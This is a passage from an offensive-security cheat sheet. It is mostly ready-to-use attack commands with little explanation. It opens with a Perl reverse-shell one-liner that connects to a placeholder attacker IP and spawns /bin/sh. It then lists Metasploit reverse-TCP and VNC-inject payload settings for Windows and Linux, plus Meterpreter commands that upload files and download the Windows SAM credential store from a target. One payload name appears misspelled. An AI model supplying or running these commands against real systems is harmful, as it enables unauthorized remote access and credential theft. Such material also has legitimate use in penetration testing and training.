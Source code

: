 - Windows

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- 

Meterpreter (Metasploit) ([cheet sheet](https://www.tunnelsup.com/metasploit-cheat-sheet/))
------------------------------------------------------------

Windows reverse meterpreter payload
------------------------------------------------------------

```bash
set payload windows/meterpreter/reverse_tcp
```

- Windows reverse tcp payload

Windows VNC Meterpreter payload
------------------------------------------------------------

```bash
set payload windows/vncinject/reverse_tcpf
```

- Meterpreter Windows VNC Payload

```bash
set ViewOnly false
```

Linux Reverse Meterpreter payload
------------------------------------------------------------

```bash
set payload linux/meterpreter/reverse_tcp
```

- Meterpreter Linux Reverse Payload

Meterpreter Cheat Sheet
------------------------------------------------------------

```bash
upload file c:\\windows
```

- Meterpreter upload file to Windows target

```bash
download c:\\windows\\repair\\sam /tmp
```

- Meterpreter download file from Windows target

```bash
download c:\\windows\\repair\\sam /tmp
```
